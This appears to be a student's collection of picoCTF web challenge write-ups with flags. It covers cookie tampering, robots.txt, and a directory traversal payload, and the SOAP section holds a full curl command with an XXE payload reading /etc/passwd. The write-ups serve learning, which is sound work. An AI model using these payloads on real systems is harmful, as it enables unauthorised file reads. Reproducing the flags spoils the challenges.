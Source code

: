 # Cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`

Approach:

- **Step 1**

This challenge was pretty easy, it just required for us to tinker with the cookie values of the webpage, seeing the title of the challenge and webpage i knew we had to do something with the cookies so i accessed them by going to inspect, application and then cookies there i saw the value as -1 and thought to change it which resulted in a new webpage so i kept on doing this till i entered the value 18 which gave me the flag!!!

![image](https://github.com/user-attachments/assets/94433a92-0727-49c6-8e22-56bd4901e109)

Knowledge Gained:

1. Use of cookies and how to exploit them

Incorrect Methods:

- No incorrect method was pretty simple

References

- No reference

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Approach:

- **Step 1**

On launching the challenge i got a basic undertsanding of the challenge, we need to somehow enter a path in the website that could bypass the filtering of absolute path and since we cant provide a absolute path i had to do something different, so i used chatGPT to get basic ideas of how we can bypass filters like this and one method suggested was to append `../../` before `/flag.txt` to bypass the filter this is known as directory traversal. This works because basically what we are doing is moving up the directories till we reach the root directory and then we provide the relative path from there to `/flag.txt` so i just kept appending `../` till i entered `../../../../flag.txt` which worked and it gave me the flag!!! 

![image](https://github.com/user-attachments/assets/32799e58-4e11-46bf-85de-bf30d9f345a4)

![fpath](https://github.com/user-attachments/assets/212570c5-a6b0-48d1-9d5c-14cca1353748)

Knowledge Gained:

1. Directory Traversal in websites
2. Basic idea on how to bypass absolute path filters

Incorrect Methods:

- Initially i tried various methods to bypass the filter like using `.`, using globs etc. which did not work so i used help of AI to get a basic idea of what to do

References

- [ChatGPT](www.chatgpt.com)

# Insp3ct0r

**Flag:** `picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}`

Started the challenge, opened the website and inspected the site there i looked around to find all the 3 parts of the flag and complete it!!!

# where are the robots

**Flag:** `picoCTF{ca1cu1at1ng_Mach1n3s_8028f}`

Started the challenge, opened the site and i tried using inspect to find any leads but got no success then i asked chatGPT for some ideas on what to do and it told me to try using "robots.txt" which tells search engine crawlers which URLs the crawler can access on the site, on using this i see 
```
User-agent: *
Disallow: /8028f.html
```
so i try to go to the dissallowed file by appending it to the url and voila i get the flag!!!

# SOAP

**Flag:**  `picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`

One of the harder challenges to solve but finally did it. So first i opened the site and was stuck there for a quite a while until while just looking around in inspect i saw that in Network there was a "POST" request which gave me an idea since i had already solved a similar challenge in OASIS so i knew i had to use the `curl` command to send a special request to get the flag, so i copied the request as `curl` and got this 

```
curl 'http://saturn.picoctf.net:52083/data' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/xml' \
  -H 'Origin: http://saturn.picoctf.net:52083' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://saturn.picoctf.net:52083/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>' \
  --insecure
```

here it was clear an xml request was being sent and also the hint said to use an xml external entity injection so i googled it and found the format of an XXE attack using which then i modified the command and got this

```
curl 'http://saturn.picoctf.net:52083/data' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/xml' \
  -H 'Origin: http://saturn.picoctf.net:52083' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://saturn.picoctf.net:52083/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
  --insecure
```

on running this i got the flag!!!
